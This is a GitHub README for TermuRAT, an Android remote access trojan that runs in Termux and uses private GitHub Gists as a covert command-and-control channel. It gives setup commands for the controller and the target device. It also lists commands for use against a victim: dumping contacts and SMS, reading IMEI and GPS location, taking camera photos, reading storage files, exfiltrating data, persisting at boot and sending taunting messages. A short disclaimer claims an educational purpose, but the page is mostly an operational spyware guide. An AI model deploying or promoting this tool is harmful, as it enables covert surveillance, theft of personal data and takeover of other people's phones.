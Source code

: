 # TermuRAT

**TermuRAT** is a stealthy, terminal-based Android Remote Access Trojan (RAT) built for Termux. It uses private GitHub Gists as a command-and-control (C2) channel, allowing remote command execution and data exfiltration without direct connections or suspicious traffic.

## ⚙️ Features

- 🕵️ **Runs fully in Termux**
- 🛰️ **Gist-based C2** – Pulls commands and uploads results via GitHub Gists.
- 🧠 **Timestamp logic** – Executes commands only when the Gist updates.
- 🧼 **Clean & Minimal** – Lightweight, no dependencies beyond Termux and python in it.

## 🧠 How It Works

1. The Termux script checks a private GitHub Gist at intervals.
2. If the Gist has changed timestamp, it fetches the new command.
3. The command is executed locally in Termux in the target device.
4. The output is pushed back to another Gist as response.

## 📁 Structure

- `target.py` – Main RAT client script (runs on the target via Termux).
- `host.py` – Control-side script to send commands and fetch results.

## 🚀 Setup

1. Create a **GitHub Token**.
2. Set your GitHub token in host scripts.
3. Run `host.py`. It will genarate the gists and print in terminal.
4. Paste the token and gist id in target device and run `target.py` on target device via Termux.
5. Use `host.py` to send commands and read results.

## 📦 Requirements

- Termux and Termux:Api installed on target device.
- GitHub account & token with Gist access
- Terminal to send the command to target device.

## ⚠️ Disclaimer

This tool is for **educational and ethical research purposes only**. Unauthorized access to devices or systems is illegal and unethical. You are responsible for how you use TermuRAT.

## 🛠️ Installation

### On the **Host** (Control Machine):
```bash
pkg update && pkg upgrade
pkg install python git
pip install requests
git clone https://github.com/opsonusdh/TermuRAT
cd TermuRAT/HostSide
python host.py
```
🧠 host.py will auto-generate the required Gists and display their IDs. Like:
```json
{"token": "<your token>", "to_target_gist_id": "<gist_id1>", "to_host_gist_id": "<gist_id2>"}
```

Copy it and paste it in target device.


### On the **Target Device** (Termux):
```bash
pkg update && pkg upgrade
pkg install python git termux-api
pip install requests
git clone https://github.com/opsonusdh/TermuRAT
cd TermuRAT/TargetSide
nano data.json
```
Here you can see json like this: 
```json
{"token": "", "to_target_gist_id": "", "to_host_gist_id": ""}
```
⚠️ Make sure to paste the GitHub Token and Gist ID from host device.
Then run
```bash
python target.py
```

## 🧨 What Can You Do with TermuRAT?

- 🔍 **Run Shell Commands**  
  Execute any shell command on the target device—silently.

- 📂 **Access Files**  
  List directories, read file contents, or exfiltrate sensitive data.

- 📸 **Use Device Sensors**  
  If Termux:API is enabled, access location, battery status, or even take photos.

- 🧾 **Install or Run Scripts**  
  Deploy and run additional payloads or scripts on the fly.

- 🔁 **Persistent Execution**  
  With a little tweaking, make it auto-run at boot like a true lurker.

- 📡 **Communicate Silently**  
  No ports, no listeners—just GitHub being abused like a C2 server.

> And yes, it all happens through a tiny GitHub Gist. Told you it was sneaky.

## 🧪 Example Usage

After launching `target.py`, you can use various commands. Some examples are given below:


termux-toast "You’ve been hacked 😈" [Display a toast message (for fun or trolling)]

termux-vibrate -d 1000 [Vibrate the device for 1 second]

termux-battery-status [Get battery level, charging status, and health]

termux-location [Get the device's current GPS coordinates]

termux-camera-photo -c 0 [Take a photo using the front camera]
 
termux-camera-photo -c 1 [Take a photo using the rear camera]

termux-sensor -l [List all available hardware sensors]

termux-sensor -s accelerometer,gyroscope,light -n 2 | timeout 5 cat [Get real-time accelerometer data]

termux-telephony-deviceinfo [Fetch device IMEI, carrier info, and more]

termux-wifi-connectioninfo [Show current Wi-Fi connection details]
  
termux-contact-list [Dump all saved contacts]

termux-sms-list [List received SMS messages]
 
termux-sms-send -n 1234567890 "Yo, this phone is mine now." [Send an SMS from the target]

termux-notification --title "Warning" --content "You’re being watched." [Push a custom notification]

termux-dialog text [Show a prompt dialog (requires user input)]

df -h [Show internal storage usage stats]

ls /sdcard/ [List files in the device's internal storage]

cat /sdcard/secret.txt [Read contents of a specific file]

top -n 1 [Display real-time system resource usage]

ps -A [List all running processes]  
curl ifconfig.me [Get the device's public IP address]

uptime [Check how long the device has been running]

whoami [Display the current user (usually u0_aXXX in Termux)]

termurat exit -h [Internal command of TermuRAT to exit the program]

